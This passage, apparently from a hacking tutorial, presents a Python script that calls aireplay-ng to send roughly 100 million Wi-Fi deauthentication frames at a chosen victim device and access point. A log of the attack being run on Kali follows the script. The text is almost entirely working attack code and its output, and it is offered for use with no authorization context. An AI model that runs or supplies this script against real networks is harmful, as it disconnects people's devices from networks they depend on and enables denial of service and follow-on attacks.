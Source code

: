 - Let's write down a Python script to automate this process of deauthentication attack. The script will take the wireless interface name, target client MAC address, and gateway (AP) MAC address as input and perform the deauthentication attack.

    ```python
    # Deauthentication Attack Script
    # This script performs a deauthentication attack on a specified Wi-Fi network.

    import os
    import subprocess
    def deauth_attack(interface, target_mac, gateway_mac):
        print(f"[+] Starting deauthentication attack on {target_mac} via {gateway_mac} using {interface}")
        
        # Construct the command for the deauthentication attack
        command = [
            "sudo", "aireplay-ng", "--deauth", "100000000", "-a", gateway_mac, "-c", target_mac, interface
        ]
        
        # Execute the command
        subprocess.call(command)
        
        
    # Example usage
    if __name__ == "__main__":
        # Fetch the interface name using iwconfig command
        interface = input("Enter the interface name (e.g., wlan0): ")
        target_mac = input("Enter the target MAC address (victim): ")
        gateway_mac = input("Enter the gateway (AP) MAC address: ")
        print(f"[+] Initiating Deauthentication attack on {target_mac} via {gateway_mac} using {interface}")
        deauth_attack(interface, target_mac, gateway_mac)
        print("[+] Deauthentication attack completed")
        
    ```

    Python Script logs:

    ```bash
    (.venv) root@kali:~/PycharmProjects/hacking-tutorial# python deauth_attack.py 
    Enter the interface name (e.g., wlan0): wlan0
    Enter the target MAC address (victim): MOBILE_MAC
    Enter the gateway (AP) MAC address: WIFI_MAC
    [+] Initiating Deauthentication attack on MOBILE_MAC via WIFI_MAC using wlan0
    [+] Starting deauthentication attack on MOBILE_MAC via WIFI_MAC using wlan0
    23:31:45  Waiting for beacon frame (BSSID: D8:47:32:79:B5:44) on channel 36
    23:31:45  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [51|69 ACKs]
    23:31:46  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    23:31:47  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    23:31:47  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    ```
